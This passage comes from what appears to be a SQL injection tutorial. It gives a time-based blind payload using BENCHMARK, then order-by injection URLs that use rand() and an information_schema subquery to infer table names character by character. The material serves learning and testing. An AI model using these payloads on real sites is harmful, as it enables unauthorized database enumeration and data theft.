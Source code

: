

```sql

' - (IF(MID(version(),1,1) LIKE 5, BENCHMARK(100000,SHA1('true')), false)) - '

```



### order by post injection


`order by` Because it is a sort statement, you can use the conditional statement to make judgments, and judge the true and false conditions according to the returned sorting result. Variables with `order` or `order by` are probably the kind of injections. When you know a field, you can do the following:


Original link: `http://www.test.com/list.php?order=vote`


Sort according to the `vote` field. Find the ticket with the highest number of votes `num` and construct the following link:


```

http://www.test.com/list.php?order=abs(vote-(length(user())>0)*num)+asc

```



See if the sorting changes. There is another way to not know any field information, use the `rand` function:


```

http://www.test.com/list.php?order=rand(true)

http://www.test.com/list.php?order=rand(false)

```



The above two will return different sorts, and the statement that determines whether the first character in the table name is less than 128 is as follows:


```

http://www.test.com/list.php?order=rand((select char(substring(table_name,1,1)) from information_schema.tables limit 1)<=128))

```



### Wide byte injection
